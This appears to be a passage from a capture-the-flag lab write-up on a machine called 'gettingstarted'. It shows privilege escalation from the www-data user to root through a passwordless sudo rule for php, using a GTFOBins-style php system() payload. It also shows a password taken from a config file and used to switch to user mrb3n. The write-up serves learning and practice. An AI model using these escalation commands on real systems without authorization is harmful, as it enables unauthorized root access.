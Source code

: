 ## Privilege escalation
### sudo
If we take a look at the sudo rights of the `www-data` user we can find no password rights to execute php:
```
www-data@gettingstarted:/home/mrb3n$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
www-data@gettingstarted:/home/mrb3n$ 
```

With that we can easily escalate our rights with the following payload (https://gtfobins.github.io/gtfobins/php/#sudo):
```
www-data@gettingstarted:/home/mrb3n$ export CMD="/bin/bash"
www-data@gettingstarted:/home/mrb3n$ sudo php -r "system('$CMD');"
root@gettingstarted:/home/mrb3n# id
uid=0(root) gid=0(root) groups=0(root)
root@gettingstarted:/home/mrb3n# 
```

### User mrb3n
If we inspect some files of the GetSimple application, we can find a password in the file `/var/www/html/gsconfig.php`:
```php

[...]

# Extra salt to secure your password with. Default is empty for backwards compatibility.
#define('GSLOGINSALT', 'your_unique_phrase');
#define('GSLOGINSALT', 'P@ssw0rd');

[...]

```
Such a simple password could also be brute forced easily.

Using that password we can `su` into the user `mrb3n`:
```
www-data@gettingstarted:/var/www/html$ su mrb3n
Password: 
mrb3n@gettingstarted:/var/www/html$ cd /home/mrb3n/
mrb3n@gettingstarted:~$ id
uid=1000(mrb3n) gid=1000(mrb3n) groups=1000(mrb3n),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
mrb3n@gettingstarted:~$ 
```
